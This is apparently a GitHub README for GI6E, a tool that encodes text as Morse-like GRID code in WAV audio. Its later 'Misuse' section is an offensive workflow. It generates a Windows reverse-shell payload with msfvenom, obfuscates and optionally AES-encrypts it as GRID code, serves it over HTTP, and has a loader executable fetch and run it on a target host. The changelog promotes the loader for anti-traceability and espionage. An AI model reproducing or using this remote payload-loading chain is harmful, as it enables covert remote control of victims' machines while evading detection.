

 

# GI6E

**"It seems capable of extracting sensitive information from specially crafted audio signals."**

HEX-GRID CODEX (abbreviated as HGC) is a custom 6-bit structured encoding system that utilizes a three-bit group identifier (Group Bits) plus a three-bit index identifier (Index Bits) to form 64 unique codes. Its core design philosophy maps letters and numbers onto a two-dimensional block matrix, enabling scalable, hierarchical, and machine-parsable character distribution. This makes it suitable for Morse code extensions, embedded communication protocols, cryptographic tagging, or compact representation of special character sequences.

---

https://youtu.be/Uzc14fmhI5I

### **V1.2 Update**

* \[+] Added AES-CTR encrypted transmission to significantly increase anti-traceability difficulty
* \[+] Modified decoding sensitivity
* \[+] Added client control interface
* \[+] Encryption/decryption parser added
* \[+] Malicious shellcode loader included

**"It might just be what espionage has been waiting for."**


---

# Installation

```bash
$ git clone https://github.com/MartinxMax/gi6e.git
$ cd gi6e
$ pip install -r require.txt
```

---

# Usage

```bash
$ python3 grid.py
```


---

## Text to WAV

Convert strings into GRID-encoded `.wav` audio files:

```bash
Please enter text to convert: TEST
[+] Grid file successfully generated: ./lib/history/generate/1752834436.wav
```


---

## WAV to Text

Input a `.wav` file and decode its content to plaintext:

```bash
Enter unencrypted WAV path: ./lib/history/generate/1752834436.wav
[Unencrypted] Decoded result => ('-.-.-- . --..-. .  . -.-.-. .  . -.-.-. .  . --..-. .  . --..-. .  . -...-. .  . --..-. .  . -.-.-. . ', 'TEST')
```


---

## One-click Test

Quickly verify system functionality:


---

## Real-time Listening

Play audio and decode the message in real-time:


---

## Text to Grid

Convert plaintext into GRID code:

```bash
Please enter text to convert: HELLO
[Unencrypted] Generated Grid code => '-.-.-- . -.-.-. . .--.-- . -.-.-. . --..-. . -.-.-. . .--..- . -.-.-. . .--..- . -.-.-. . --...- . '
```


---

## Grid to Text

Convert GRID code back to readable text:

```bash
Please enter Grid code (space separated): '-.-.-- . -.-.-. . .--.-- . -.-.-. . --..-. . -.-.-. . .--..- . -.-.-. . .--..- . -.-.-. . --...- . '
[Unencrypted] Decoded: HELLO
```


---

# Misuse: GRID-based SHELLCODE Loader


Generate shellcode (e.g., reverse shell payload):

```bash
(grid-loader)$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.8.102 LPORT=443 -f python | sed 's/\<buf\>/shellcode/g' > ./SHELLCODE/Main.conf
```


Convert shellcode into GRID code:

```bash
(grid-loader)$ python3 grid-gener.py
```

You can use the `-key` parameter for obfuscated encryption:


---

## Remote Loader

```bash
$ sudo python3 -m http.server 80
```


Upload `grid-loader.exe` to target system. Use `-key` parameter if encrypted:

```bash
> grid-loader.exe -load http://192.168.8.102/Main.grid
```

**Target:**


**Ubuntu Host:**


---

## Local Loader

```bash
> grid-loader.exe -load ./Main.grid
```

**Target:**



**Ubuntu Host:**


---

## GRID Encrypted Loader

```bash
(grid-loader)$ python3 grid-gener.py -key 12345678
```


```bash
> grid-loader.exe -load http://192.168.8.102/Main.grid -key 12345678
```

Or:

```bash
> grid-loader.exe -load ./Main.grid -key 12345678
```


 
